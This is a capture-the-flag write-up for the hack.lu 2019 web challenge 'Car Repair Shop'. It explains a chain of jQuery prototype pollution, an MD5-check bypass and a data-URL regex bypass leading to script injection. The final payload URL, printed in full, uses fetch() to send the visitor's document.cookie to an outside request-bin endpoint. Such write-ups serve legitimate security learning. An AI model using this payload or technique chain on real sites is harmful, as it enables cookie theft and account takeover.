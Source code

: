 # hack.lu 2019 - Car Repair Shop

- Category: web
- Author(s): kunte_
- Difficulty: medium
- Solves: 10 / 972

Challenge Description:

> "Your Car broke down?! Come to our shop, we repair all cars! Even very old ones."
>
> [Enter the Shop](https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/)

## Analysis

After accessing the URL of the challenge description the following page showed up:

![car repair shop](car-repair-shop.png)

Here we can see several buttons which will execute certain functions when clicked. Below there is a message box which gets updated after some function was executed.
At the bottom there was another button named `Get your cookie!` which lead to a [subpage](https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/submit/) where a URL could be sumitted.
The submitted URL would then be visited by an automated browser.

So the big picture looked like we had to craft a URL containing a payload and submit it. When it gets visited we have to exfiltrate the flag somehow. The button name suggested that the flag was in the cookie.

The page was small and contained (among others) the following interesting files:

- index.html
- car.class.js
- util.js
- jquery.min.js
- jquery.md5.js

`util.js` was responsible for setting up the page like event handlers and then started to execute some code:

```js
const urlParams = new URLSearchParams(window.location.search)
const h = location.hash.slice(1)
const bugatti = new Car('Bugatti', 'T35', 'green', 'assets/images/bugatti.png')
const porsche = new Car('Porsche', '911', 'yellow', 'assets/images/porsche.png')

[...]

    if(h.includes('Bugatti'))
        autoStart(bugatti)
    if(h.includes('Porsche'))
        autoStart(porsche)
```

The `autoStart`-function will execute the `repair`, `ignition` and `powerOn` methods of the car passed as argument. The respective code can be found in `car.class.js`. The `repair`-function accesses the URL and parses a JSON-object of the query parameter with the same name as the function:

```js
    repair() {
        if(urlParams.has('repair')) {
            $.extend(true, this, JSON.parse(urlParams.get('repair')))
        }
    }
```

This code will merge the attributes and values provided in the JSON object with the `Car` object. This is dangerous and opens a prototype pollution vulnerability as described [here](https://snyk.io/blog/after-three-years-of-silence-a-new-jquery-prototype-pollution-vulnerability-emerges-once-again/). We can overwrite the `__proto__` attribute of the `Car` and introduce new attributes.

Next the `ignition`-function is called:

```js
    ignition() {
        if (this.key == "") {
            infobox(`Looks like the key got lost. No wonder the car is not starting ...`)
        }
        if (this.key == "🔑") {
            infobox(`The car started!`)
            this.start()
        }
    }
```

We need to set the key property of the `Car`-object to get it started. Otherwise the last of the three functions `powerOn` will not get us to the next car:

```js
    powerOn() {
        if (this.isStarted()) {
            infobox(`Well Done!`)
            nextCar()

        } else {
            $('.chargeup')[0].play()
        }
    }
```

```js
const cars = [bugatti, porsche]

[...]

const nextCar = () => {
    cars.push(cars.shift())
    $(".image").attr('src', cars[0].pic);
}
```

To repair the `bugatti` we can just specify the `key` with the value of the emoji in the URL and the `repair`-function will do its job:

```text
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={%22key%22:%22%F0%9F%94%91%22}
```

This will bring us to the `porsche`. Here there were some customizations made to the `repair` and ignition functions:

```js
porsche.repair = () => {
    if(!bugatti.isStarted()){
        infobox(`Not so fast. Repair the other car first!`)
    }
    else if($.md5(porsche) == '9cdfb439c7876e703e307864c9167a15'){
        if(urlParams.has('help')) {
            repairWithHelper(urlParams.get('help'))
        }
    }
    else{
        infobox(`Repairing this is not that easy.`)
    }
}
porsche.ignition = () => {
    infobox(`Hmm ... WTF!`)
}
```

Here the `ignition`-function does not matter as it simply outputs some text. The `repair`-function however has some special requirements:

1. The `bugatti` needs to be started before.
2. The `md5` of the `porsche`-object needs to be `9cdfb439c7876e703e307864c9167a15`

(1) is already achieved with the correct `key` in the URL and should be satisfied.
(2) needs to be done. The MD5 hash is actually the hash of the string `lol` (see your favorite hash lookup table, e.g. crackstation.net).
So how is the hash computed of an object? Looking at the code of `jquery.md5.js` it shows that the hash will be computed of the string representation of the object which is obtained through the `toString` method.
To change the string representation of an object we would need to overwrite this method, but this is not possible in this case.
We cannot create or change methods with the jQuery extend of the `repair`-function, only properties, because of JSON.

To solve this problem we can use an interesting property of JavaScript arrays and the prototype pollution mentioned before.
When an array is converted to a string in JavaScript it will become a string representation of its elements joined by `,`.
So for example `["lol"]` becomes `"lol"`.
Now combined with prototype pollution this can be easily verified with:

```js
$.md5({__proto__:["lol"]}) == '9cdfb439c7876e703e307864c9167a15'
```

However in the payload we cannot set the prototype directly to our array, otherwise we lose the functionality provided by the `Car` class.
We can circumvent this by not directly setting the prototype to the array but to an object with the prototype set to the array: `{"__proto__": {"__proto__": ["lol"]}}`  
*This indirection through another object was discovered by team member "Smashing" while I was taking the bus from the conference back to the hotel. So this was a pleasant surprise and spared me some time ;)*

The new payload looks like the following now:

```text
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={%22key%22:%22%F0%9F%94%91%22,%22__proto__%22:%20{%22__proto__%22:%20[%22lol%22]}}#BugattiPorsche
```

With this we can bypass the MD5 check and get to the `repairWithHelper` function used in the `porsche`-`repair`-function:

```js
const repairWithHelper = (src) => {
    /* who needs csp anyways !? */
    urlRegx = /^\w{4,5}:\/\/car-repair-shop\.fluxfingersforfuture\.fluxfingers\.net\/[\w\d]+\/.+\.js$/;
    if (urlRegx.test(src)) {
        let s = document.createElement('script')
        s.src = src
        $('head').append(s)
    }
}
```

Here we can see that it creates a script and sets its `src`-attribute to the URL provided as argument of the function.
This argument can be controlled with the `help` query parameter.
The problem we face is the regex which seems to be very restrictive.
Only the last part of the URL (the filename) allows arbitrary characters.
After some testing I discovered that a data-URL would match the regex `data:[<MIME-Type>][;charset=<Charset>][;base64],<Data>`.
There was only the uncertainty if it would load with some garbage content type as the required `*.fluxfingers.net` hostname would be placed there.
To my surprise this worked and I was able to pop an `alert(1)` with `help` set to:

```text
help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/text/javascript,alert(1)//.js
```

The updated payload URL:

```text
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={%22key%22:%22%F0%9F%94%91%22,%22__proto__%22:%20{%22__proto__%22:%20[%22lol%22],%20%22dotAll%22:true}}&help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/text/javascript,alert(1)//.js#BugattiPorsche
```

So now we have the full exploit chain together. The only missing part is reading the flag.

## Solution

The final payload, which gave us the flag, looked like the following:

```text
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={%22key%22:%22%F0%9F%94%91%22,%22__proto__%22:%20{%22__proto__%22:%20[%22lol%22],%20%22dotAll%22:true}}&help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/text/javascript,fetch(%22https://en7f8h9cynsmk.x.pipedream.net/%22%2Bdocument.cookie)//.js#BugattiPorsche
```

It extracts the `cookie` and sends it as part of the URL with `fetch` to an HTTP-endpoint controlled by us. RequestBin.com and similar sites are very useful for that. There we can inspect the requests and see what the visitor of our payload URL will send.

![flag exfiltrated to requestbin](flag-requestbin.png)

Finally we got the correct flag: `flag{brumm_brumm_brumm_brumm_brumm_brumm_brumm}`

## Notes

I solved this challenge 20 minutes before the end of the CTF.
This changed our ranking from 4th of the local teams to 3rd and we won 500€ which was pretty cool.
Of course this was only possible with the awesome contributions and solved challenges of the other players of the [W0Y-CTF-team](https://w0y.at).

Hack.lu 2019 was an awesome conference with a very nice CTF with many (30) challenges of different categories.
Thanks to [Fluxfingers](https://fluxfingers.net/) for organizing it.
